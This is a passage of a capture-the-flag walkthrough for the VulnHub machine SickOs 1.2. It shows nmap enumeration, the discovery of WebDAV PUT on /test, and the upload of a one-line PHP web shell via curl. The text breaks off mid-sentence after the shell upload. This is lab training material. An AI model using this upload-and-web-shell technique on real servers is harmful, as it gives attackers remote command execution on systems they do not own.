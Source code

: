 # SickOs: 1.2

## 1.Get VM IP :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8e84c627-dcce-4e28-9a2b-7f5309b7fc65)

The ip address is `192.168.127.230`, let's scan it.

## 2.Enumeration

```bash
Nmap scan report for 192.168.127.230
Host is up (0.00047s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:67:CE:D7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the web application has nothing :
- no robots.txt
- no special directory
- no nikto special results
- no directory traversal vector
- no session management
- no exploit for `lighttpd 1.4.28`

the only useful information from nikto is `/test` directory

this directory is a simple directory listing and has nothing interesting, but if we curl to this page :

```bash
root@kali: curl http://192.168.127.230/test -X OPTIONS -v

*   Trying 192.168.127.230:80...
* Connected to 192.168.127.230 (192.168.127.230) port 80
> OPTIONS /test HTTP/1.1
> Host: 192.168.127.230
> User-Agent: curl/8.3.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Location: http://192.168.127.230/test/
< Content-Length: 0
< Date: Wed, 25 Oct 2023 17:00:21 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.127.230 left intact
```

 we can see that allowed methods are strang and one of them is put, so we can simply test if we can upload a file here :

 ```bash
root@kali: curl 192.168.127.230/test/ -X PUT -T ./file.txt -v

*   Trying 192.168.127.230:80...
* Connected to 192.168.127.230 (192.168.127.230) port 80
> PUT /test/file.txt HTTP/1.1
> Host: 192.168.127.230
> User-Agent: curl/8.3.0
> Accept: */*
> Content-Length: 0
> 
< HTTP/1.1 200 OK
< Content-Length: 0
< Date: Wed, 25 Oct 2023 17:07:43 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.127.230 left intact
```

 and yes we uploaded our file into the /test directory:

 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/496d9819-6b06-48ec-8ccb-cd4c45b58a7f)

now we can check to upload a php file to send command, i made a file called `shell.php` with the following content :

```php
<?php system($_GET["cmd"]);
```
and uploaded it :

```bash
root@kali: curl 192.168.127.230/test/ -X PUT -T ./shell.php -v

*   Trying 192.168.127.230:80...
* Connected to 192.168.127.230 (192.168.127.230) port 80
> PUT /test/shell.php HTTP/1.1
> Host: 192.168.127.230
> User-Agent: curl/8.3.0
> Accept: */*
> Content-Length: 28
> 
* We are completely uploaded and fine
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Wed, 25 Oct 2023 17:12:08 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.127.230 left intact
```
 and yes we uploaded the file :

 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1eea3aca-eb29-4136-a03f-c8fafd9bf618)


now le








